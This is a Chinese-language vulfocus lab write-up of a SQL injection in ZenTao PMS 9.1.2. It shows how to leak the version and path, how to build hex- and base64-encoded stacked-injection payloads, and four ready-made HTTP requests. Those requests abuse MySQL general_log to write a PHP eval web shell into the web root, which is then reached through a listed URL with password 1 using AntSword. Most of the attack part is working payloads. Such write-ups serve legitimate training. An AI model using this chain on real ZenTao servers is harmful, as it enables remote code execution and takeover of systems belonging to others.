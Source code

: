 ## 禅道-9.1.2-sql SQL注入 

#### 环境搭建

靶机：CentOS7（192.168.2.101）

该漏洞环境已整合到vulfocus靶场中，可一键直接启动



<img src="https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20211231094515.png" style="zoom:80%;" />

<br>

#### 漏洞复现

获取目标版本信息

```http://192.168.2.101:16725/zentaopms/www/index.php?mode=getconfig```

返回结果如下：

```{"version":"9.1.2","requestType":"GET","requestFix":"-","moduleVar":"m","methodVar":"f","viewVar":"t","sessionVar":"zentaosid","sessionName":"zentaosid","sessionID":"nctsn7g0rfu7ov8f4k6nnt4p0k","rand":5320,"expiredTime":"1440","serverTime":1640919729,"ip":"192.168.2.101:16725","name":"","port":""}```

<br>

通过报错信息获取绝对路径

```http://192.168.2.101:16725/zentaopms/www/index.php?m=user1&f=login&referer=L3plbnRhb3Btcy93d3cvaW5kZXgucGhwP21vZGU9Z2V0Y29uZmk=```

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20211231110602.png)

可以得知服务器的绝对路径：**/www/zentaopms/framework/base/router.class.php**

<br>

漏洞点：orderBy处理过程中存在SQL注入问题，可堆叠注入。拿其中一个payload演示编码步骤如下：

1.选择所用payload语句：`select sleep(5)`

2.将SQL语句hex编码：`0x73656c65637420736c656570283529`

3.将hex编码后的参数插入json中：

```{"orderBy":"order limit 1;SET @SQL=0x73656c65637420736c656570283529;PREPARE pord FROM @SQL;EXECUTE pord;-- -","num":"1,1","type":"openedbyme"}```

4.将json数据进行base64编码

```eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMTtTRVQgQFNRTD0weDczNjU2YzY1NjM3NDIwNzM2YzY1NjU3MDI4MzUyOTtQUkVQQVJFIHBvcmQgRlJPTSBAU1FMO0VYRUNVVEUgcG9yZDstLSAtIiwibnVtIjoiMSwxIiwidHlwZSI6Im9wZW5lZGJ5bWUifQ==```

5.将base64编码后的数据插入请求:

```http://192.168.2.101:16725/zentaopms/www/index.php%EF%BC%9Fm=block&f=main&mode=getblockdata&blockid=case&param=eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMTtTRVQgQFNRTD0weDczNjU2YzY1NjM3NDIwNzM2YzY1NjU3MDI4MzUyOTtQUkVQQVJFIHBvcmQgRlJPTSBAU1FMO0VYRUNVVEUgcG9yZDstLSAtIiwibnVtIjoiMSwxIiwidHlwZSI6Im9wZW5lZGJ5bWUifQ==```

6.注：每一个请求中都需要手动添加refer字段：`Referer:http://192.168.2.101:16725/zentaopms/`

<br>

获取webshell的payload：

```
//set global general_log='on'    			#开启日志
GET /zentaopms/www/index.php?m=block&f=main&mode=getblockdata&blockid=case&param=eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMSwxO1NFVCBAU1FMPTB4NzM2NTc0MjA2NzZjNmY2MjYxNmMyMDY3NjU2ZTY1NzI2MTZjNWY2YzZmNjczZDI3NmY2ZTI3M2I7UFJFUEFSRSBwb3JkIEZST00gQFNRTDtFWEVDVVRFIHBvcmQ7LS0gLSIsIm51bSI6IjEsMSIsInR5cGUiOiJvcGVuZWRieW1lIn0= HTTP/1.1
Host: 192.168.2.101:16725
Referer:http://192.168.2.101:16725/zentaopms/


//set global general_log_file='/www/zentaopms/module/misc/ext/model/foo.php'  #修改日志路径
GET /zentaopms/www/index.php?m=block&f=main&mode=getblockdata&blockid=case&param=eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMSwxO1NFVCBAU1FMPTB4NzM2NTc0MjA2NzZjNmY2MjYxNmMyMDY3NjU2ZTY1NzI2MTZjNWY2YzZmNjc1ZjY2Njk2YzY1M2QyNzJmNzc3Nzc3MmY3YTY1NmU3NDYxNmY3MDZkNzMyZjZkNmY2NDc1NmM2NTJmNmQ2OTczNjMyZjY1Nzg3NDJmNmQ2ZjY0NjU2YzJmNjY2ZjZmMmU3MDY4NzAyNzNiO1BSRVBBUkUgcG9yZCBGUk9NIEBTUUw7RVhFQ1VURSBwb3JkOy0tIC0iLCJudW0iOiIxLDEiLCJ0eXBlIjoib3BlbmVkYnltZSJ9 HTTP/1.1
Host: 192.168.2.101:16725
Referer:http://192.168.2.101:16725/zentaopms/


//select '<?php @eval($_POST[1])?>'  		#写入shell语句
GET /zentaopms/www/index.php?m=block&f=main&mode=getblockdata&blockid=case&param=eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMSwxO1NFVCBAU1FMPTB4NzM2NTZjNjU2Mzc0MjAyNzNjM2Y3MDY4NzAyMDQwNjU3NjYxNmMyODI0NWY1MDRmNTM1NDViMzE1ZDI5M2YzZTI3M2I7UFJFUEFSRSBwb3JkIEZST00gQFNRTDtFWEVDVVRFIHBvcmQ7LS0gLSIsIm51bSI6IjEsMSIsInR5cGUiOiJvcGVuZWRieW1lIn0= HTTP/1.1
Host: 192.168.2.101:16725
Referer:http://192.168.2.101:16725/zentaopms/


//set global general_log='off'  			 #关闭日志文件
GET /zentaopms/www/index.php?m=block&f=main&mode=getblockdata&blockid=case&param=eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMSwxO1NFVCBAU1FMPTB4NzM2NTc0MjA2NzZjNmY2MjYxNmMyMDY3NjU2ZTY1NzI2MTZjNWY2YzZmNjczZDI3NmY2NjY2MjczYjtQUkVQQVJFIHBvcmQgRlJPTSBAU1FMO0VYRUNVVEUgcG9yZDstLSAtIiwibnVtIjoiMSwxIiwidHlwZSI6Im9wZW5lZGJ5bWUifQ== HTTP/1.1
Host: 192.168.2.101:16725
Referer:http://192.168.2.101:16725/zentaopms/
```

访问webshell获取flag：链接：http://118.193.36.37:10363/zentaopms/module/misc/ext/model/foo.php 密码：1

用AntSword连接

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20211231114221.png)

<br>



#### 漏洞分析  

##### 用到的mysql命令

```mysql
show variables like '%secure%';    #查看安全
show variables like 'general_log%';  #查看日志
set global general_log_file='/www/zentaopms/module/misc/ext/model/foo.php';   #设置日志文件目录
set global general_log='on';  #开启日志
```

漏洞发现：参考：[代码审计-禅道9.2.1-sql注入 - )ops - 博客园 (cnblogs.com)](https://www.cnblogs.com/0ops/p/11832059.html)

漏洞利用：参考：[zentaopms-9.1.2-sql SQL注入 (fofapro.github.io)](https://fofapro.github.io/vulfocus/#/writeup/zentaopms_9.1.2_sql_SQL注入/zentaopms_9.1.2_sql_SQL注入?id=general_log方式成功)

